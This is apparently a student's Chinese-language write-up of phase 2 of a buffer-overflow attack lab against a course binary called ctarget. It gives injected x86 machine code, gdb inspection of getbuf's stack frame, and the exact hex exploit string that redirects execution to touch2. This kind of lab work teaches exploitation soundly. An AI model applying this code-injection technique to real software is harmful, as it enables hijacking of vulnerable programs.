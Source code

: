 ```x86asm
movq $0x286582b8, %rdi
movq $0x5567b418, %rsp
ret
```
将编译后反汇编：

```x84asm
0:   48 c7 c7 b8 82 65 28    mov    $0x286582b8,%rdi
7:   48 c7 c4 18 b4 67 55    mov    $0x5567b418,%rsp
e:   c3                      retq
```
可以得到这段指令的机器代码。而它就是我需要注入到程序中的攻击代码。另外我们需要将返回地址设置为到这段代码（指令）的地址，即`getbuf`函数执行后`%rsp`中存储的地址。运行gdb到`getbuf`分配内存后的指令，并查看`%rsp`中的值：

```
(gdb) b getbuf
Breakpoint 1 at 0x401768: file buf.c, line 12.
(gdb) r
Starting program: /home/students/2017211613/target99/ctarget
sCookie: 0x286582b8

Breakpoint 1, getbuf () at buf.c:12
12    buf.c: No such file or directory.
(gdb) s
14    in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
0x0000000000401768 <+0>:    sub    $0x18,%rsp
=> 0x000000000040176c <+4>:    mov    %rsp,%rdi
0x000000000040176f <+7>:    callq  0x4019aa <Gets>
0x0000000000401774 <+12>:    mov    $0x1,%eax
0x0000000000401779 <+17>:    add    $0x18,%rsp
0x000000000040177d <+21>:    retq
End of assembler dump.
(gdb) p/x $rsp
$1 = 0x5567b408
```
可以得到此段栈帧的栈顶地址为`0x5567b408`，然后与之前一样得到`touch2`的地址：`0x4017ac`
这样我就得到这次攻击的代码段：

```
48 c7 c7 b8 82 65 28 48
c7 c4 18 b4 67 55 c3 00
ac 17 40 00 00 00 00 00
08 b4 67 55 00 00 00 00
```
注入攻击：`./hex2raw < phase2 | ./ctarget`

成功:

```
Cookie: 0x286582b8
Type string:Touch2!: You called touch2(0x286582b8)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
